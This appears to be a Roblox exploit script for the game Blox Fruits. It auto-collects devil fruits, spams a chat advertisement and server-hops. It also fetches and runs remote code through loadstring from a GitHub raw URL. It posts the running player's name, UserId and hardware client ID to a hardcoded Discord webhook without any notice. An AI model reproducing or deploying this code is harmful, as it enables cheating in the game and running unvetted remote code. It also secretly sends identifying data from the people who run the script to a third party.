 repeat wait() until game.IsLoaded and (game.Players.LocalPlayer or game.Players.PlayerAdded:Wait()) and (game.Players.LocalPlayer.Character or game.Players.LocalPlayer.CharacterAdded:Wait())
if Ran then 
    return
else
    getgenv().Ran = true
end

if game:GetService("Players").LocalPlayer.PlayerGui:WaitForChild("Main", 9e9):FindFirstChild("ChooseTeam") then
    game:GetService("ReplicatedStorage").Remotes.CommF_:InvokeServer("SetTeam", "Pirates")
    wait(3)
end
local args = {
    [1] = "Blox Fruits {Devil Fruit Farm By Delux#6>6<6>6}",
    [2] = "All"
}
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(unpack(args))


loadstring(game:HttpGet("https://raw.githubusercontent.com/DogePR/adsdsa/main/README.md"))()


local plr = game.Players.LocalPlayer
local chr = plr.Character
local t = game.TweenService

local bv = Instance.new("BodyVelocity")
bv.MaxForce = Vector3.new(1/0, 1/0, 1/0)
bv.Velocity = Vector3.new()
bv.Name = "bV"
local bav = Instance.new("BodyAngularVelocity")
bav.AngularVelocity = Vector3.new()
bav.MaxTorque = Vector3.new(1/0, 1/0, 1/0)
bav.Name = "bAV" 

for _,v in next, workspace:GetChildren() do
    if v.Name:find("Fruit") and (v:IsA("Tool") or v:IsA("Model")) then
        repeat 
            local anc1 = bv:Clone()
            anc1.Parent = chr.HumanoidRootPart
            local anc2 = bav:Clone()
            anc2.Parent = chr.HumanoidRootPart
            local p = t:Create(chr.HumanoidRootPart, TweenInfo.new((plr:DistanceFromCharacter(v.Handle.Position)-100)/320, Enum.EasingStyle.Linear), {CFrame=v.Handle.CFrame + Vector3.new(0, v.Handle.Size.Y, 0)})
            p:Play()
            p.Completed:Wait()
            chr.HumanoidRootPart.CFrame = v.Handle.CFrame
            anc1:Destroy()
            anc2:Destroy()
            wait(1)
        until v.Parent ~= workspace
        wait(1)
        local fruit = chr:FindFirstChildOfClass("Tool") and chr:FindFirstChildOfClass("Tool").Name:find("Fruit") and chr:FindFirstChildOfClass("Tool") or (function()
            for _,fr in plr.Backpack:GetChildren() do
                if fr.Name:find("Fruit") then
                    return fr
                end 
            end
        end)()
        print(fruit)
        game:GetService("ReplicatedStorage").Remotes.CommF_:InvokeServer("StoreFruit", fruit:GetAttribute("OriginalName"), fruit)
    end
end

print('nope')
---
HttpService = game:GetService("HttpService")
Webhook_URL =  "https://discord.com/api/webhooks/1062136994240659586/zePcDTtLnpkzsiuYYZEp4d_CqXcdYBb6RvlxBuaqGW32TukyGn0xuW9940ql7vxFq6rC"

local request = syn and syn.request or request or http and http.request or http_request
local response = request({
    Url = Webhook_URL,
    Method = "POST",
    Headers = {
        ['Content-Type'] = 'application/json'
    },
    Body = HttpService:JSONEncode({
        ["content"] = "",
        ["embeds"] = {
            {
                ["title"] = "",
                ["description"] = game.Players.LocalPlayer.Name .." Tried Logging Into The Script More Info Below",
                ["type"] = "rich",
                ["color"] = tonumber(0xffffff),
                ["fields"] = {
					{
                        ["name"] = "Player DisplayName : ",
                        ["value"] = game.Players.LocalPlayer.DisplayName,
                        ["inline"] = true
                    },
                    {
						
                        ["name"] = "Player Name : ",
                        ["value"] = game.Players.LocalPlayer.Name,
                        ["inline"] = true
                    }, {
                        ["name"] = "UserId : ",
                        ["value"] = game.Players.LocalPlayer.UserId,
                        ["inline"] = true
                    }, {
                        ["name"] = "User Profile : ",
                        ["value"] = "https://www.roblox.com/users/" ..
                            game.Players.LocalPlayer.UserId,
                        ["inline"] = true
                    }, {
                        ["name"] = "HWID Id : ",
                        ["value"] = game:GetService("RbxAnalyticsService"):GetClientId(),
                        ["inline"] = true
                    }, {
                        ["name"] = "Key : ",
                        ["value"] = "Hi",
                        ["inline"] = true
                    }
					
                }
            }
        }
    })
})
---
Time = 5 -- seconds
repeat wait() until game:IsLoaded()
wait(Time)
local PlaceID = game.PlaceId
local AllIDs = {}
local foundAnything = ""
local actualHour = os.date("!*t").hour
local Deleted = false
function TPReturner()
   local Site;
   if foundAnything == "" then
       Site = game.HttpService:JSONDecode(game:HttpGet('https://games.roblox.com/v1/games/' .. PlaceID .. '/servers/Public?sortOrder=Asc&limit=100'))
   else
       Site = game.HttpService:JSONDecode(game:HttpGet('https://games.roblox.com/v1/games/' .. PlaceID .. '/servers/Public?sortOrder=Asc&limit=100&cursor=' .. foundAnything))
   end
   local ID = ""
   if Site.nextPageCursor and Site.nextPageCursor ~= "null" and Site.nextPageCursor ~= nil then
       foundAnything = Site.nextPageCursor
   end
   local num = 0;
   for i,v in pairs(Site.data) do
       local Possible = true
       ID = tostring(v.id)
       if tonumber(v.maxPlayers) > tonumber(v.playing) then
           for _,Existing in pairs(AllIDs) do
               if num ~= 0 then
                   if ID == tostring(Existing) then
                       Possible = false
                   end
               else
                   if tonumber(actualHour) ~= tonumber(Existing) then
                       local delFile = pcall(function()
                           delfile("NotSameServers.json")
                           AllIDs = {}
                           table.insert(AllIDs, actualHour)
                       end)
                   end
               end
               num = num + 1
           end
           if Possible == true then
               table.insert(AllIDs, ID)
               wait()
               pcall(function()
                   writefile("NotSameServers.json", game:GetService('HttpService'):JSONEncode(AllIDs))
                   wait()
                   game:GetService("TeleportService"):TeleportToPlaceInstance(PlaceID, ID, game.Players.LocalPlayer)
               end)
               wait(4)
           end
       end
   end
end

function Teleport()
   while wait() do
       pcall(function()
           TPReturner()
           if foundAnything ~= "" then
               TPReturner()
           end
       end)
   end
end

-- If you'd like to use a script before server hopping (Like a Automatic Chest collector you can put the Teleport() after it collected everything.
Teleport()
